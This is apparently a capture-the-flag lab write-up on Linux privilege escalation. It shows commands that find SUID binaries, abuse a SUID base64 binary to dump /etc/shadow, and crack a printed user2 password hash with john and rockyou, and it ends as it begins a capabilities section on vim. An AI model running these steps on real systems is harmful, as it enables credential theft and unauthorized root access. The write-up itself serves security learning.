 ____
# Privilege Escalation: `SUID`

#### Finding `SUID`

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

i found my target !!
![base64](../../photos/base64.png)

#### Let's read the shadow to get the hashes

```bash
base64 /etc/shadow | base64 -d 
```

and i found the desired hashes...

![hash](../../photos/hash.png)


#### Let's crack the hash of `user2`

```bash
echo '$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/' > hash; john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash
```
 ---
# Privilege Escalation: Capabilities

#### Find the Capabilities
```bash
getcap -r /
```
There is a capability for `VIM`....
